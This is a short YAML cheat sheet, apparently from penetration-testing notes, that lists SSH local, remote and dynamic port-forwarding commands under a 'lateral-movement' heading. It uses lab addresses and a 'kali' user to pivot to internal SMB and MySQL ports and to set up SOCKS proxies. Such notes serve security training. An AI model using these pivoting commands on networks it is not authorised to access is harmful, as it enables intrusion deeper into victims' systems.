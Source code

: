 ```yaml
---
functions:
  lateral-movement:
    - description: Local SSH port fowarding
      code: |
        Login to 192.168.119.149 with username 'kali' and instruct x.44 to forward all 
        requests to 0.0.0.0:445 and redirect to 172.16.149.5:445
          ssh -f -N -L [bind_address:]port:host:hostport [username@address]
          ssh -f -N -L 0.0.0.0:445:172.16.149.5:445 kali@192.168.119.149
    - description: Remote SSH port fowarding
      code: |
        From the P.O.V of a current access: [you do this]:[I'll do this]
          ssh -f -N -R [bind_address:]port:host:hostport [username@address]
        Login to 192.168.119.149 with username 'kali' and instruct x.149 to listen on 
        0.0.0.0:2221 (you) and bridge that port to access 127.0.0.1:3306 (me)
          ssh -f -N -R 0.0.0.0:2221:127.0.0.1:3306 kali@192.168.119.149
    - description: Dynamic-Local SSH port fowarding
      code: |
        Setup a local socks proxy to forward all traffic to the system you connect
         to (via the new ssh tunnel)

        Create socks proxy on port 8080 and push traffic to 192.168.119.149:
        ssh -N -f -D 127.0.0.1:8080 kali@192.168.119.149
    - description: Dynamic-Remote SSH port fowarding
      code: |
        Setup a remote socks proxy to forward all traffic to the current system 
         to (via the new ssh tunnel)

        Create socks proxy on port 1080 on remote system 192.168.119.149:
        ssh -N -f -R 127.0.0.1:1080 kali@192.168.119.149
    - description: Dynamic-Remote SSH port fowarding (older ssh clients)
      code: |
        Setup a remote socks proxy to forward all traffic to the current system 
         to (via the new ssh tunnel)

        (1) Create remote port forwarding on port 2222 on remote system 192.168.119.149
        and forward to port 8888 of the local system
        (2) Traffic will reach local port 8888 and hit the socks proxy:
        ssh -f -N -R 0.0.0.0:2222:127.0.0.1:8888 kali@192.168.119.149
        ssh -N -D 8888 127.0.0.1

---
```

